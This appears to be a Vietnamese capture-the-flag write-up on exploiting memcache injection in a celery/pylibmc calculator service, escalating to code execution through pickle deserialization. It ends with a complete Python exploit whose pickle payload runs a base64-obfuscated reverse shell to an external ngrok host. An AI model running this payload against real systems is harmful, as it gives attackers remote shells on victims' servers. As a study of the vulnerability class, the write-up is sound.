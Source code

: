 # Solution

Bài này server sử dụng package celery để tạo các task queue, đồng thời kết hợp với memcache để lưu  kết quả của các phép tính cộng trừ nhân chia giúp giảm thời gian tính toán trong những lần sau.

Dễ thấy với những chall có backend (redis, memcache, ...) sử dụng text-based protocol như thế này ta thường đều có thể inject chúng. Và ở bài này cũng vậy, có thể khai thác memcache injection tại route `/calc/<operation>/<lhs>/<rhs>`

Syntax đúng của set command trong memcache như sau:

![set_command](https://user-images.githubusercontent.com/77546253/223177206-94af17b8-0ccd-45bc-aa15-a1aa3c226d6c.png)

Thử inject key là `vanir` với value là `haha`

![memcache_inject](https://user-images.githubusercontent.com/77546253/223177339-26d58a50-9092-4660-b2fa-40f43a492753.png)

Exec vào container, telnet đến memcahe server và tiến hành kiểm tra

![check_inject_success](https://user-images.githubusercontent.com/77546253/223177375-7f529294-2536-4795-aaee-6812231dfd8a.png)

-> Thành công.

Tiếp theo, mình dive source để tìm kiếm thêm thông tin cho việc rce. Server sử dụng `pylibmc` làm memcache client để thực hiện set và get data. Về `pylibmc`, nó là một thư viện python nhưng được viết bằng C và khi dive source của thằng này sẽ tìm được mảnh ghép cuối cùng để solve chall.

Chain sẽ như sau:

```
PylibMC_Client_get ->
  _PylibMC_parse_memcached_value ->
    _PylibMC_deserialize_native ->
      _PylibMC_Unpickle_Bytes, _PylibMC_Unpickle
```

Nếu `dtype` là `PYLIBMC_FLAG_PICKLE` thì sẽ thực hiện unpickle -> rce (Source tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.c))

![unpickle](https://user-images.githubusercontent.com/77546253/223177527-518837c7-cd8a-4fec-b447-160756203019.png)

Sau khi check file `_pylibmcmodule.h` tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.h), ta thấy để thỏa mãn điều kiện thì cần giá trị của `flags` khi gửi command set là `1`

![flag_pickle](https://user-images.githubusercontent.com/77546253/223177661-adfa4c6c-e883-4037-9b29-78be3290afc2.png)

Vậy ý tưởng khai thác sẽ là: memcache injection để set giá trị cho một key là payload rce (khi được unpickle), sau đó gửi GET request tới server để memcache client thực hiện lấy key này về => RCE diễn ra 

Final script:
```python
import requests
import pickle, os
import urllib.parse
import base64
class RCE:
    def __reduce__(self):
        cmd = ('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTk1MjIgMD4mMQ==|base64 -d|bash')
        return os.system, (cmd,)

url = "http://127.0.0.1:5000"

if __name__ == '__main__':

    path = f"/calc/add/123/123"

    pickledPayload = pickle.dumps(RCE(), 1)
    len_payload = len(pickledPayload)
    print(len_payload)


    set_command = b"\r\nset uwsgi_file__app_chall._add_1_1233 1 60 111"+ b"\r\n" + pickledPayload + b"\r\n"

    final_path = path + urllib.parse.quote_from_bytes(set_command)

    print(url +  final_path)
    print(requests.get(url +  final_path).text)
    print(requests.get(url + "/calc/add/1/1233").text)
```
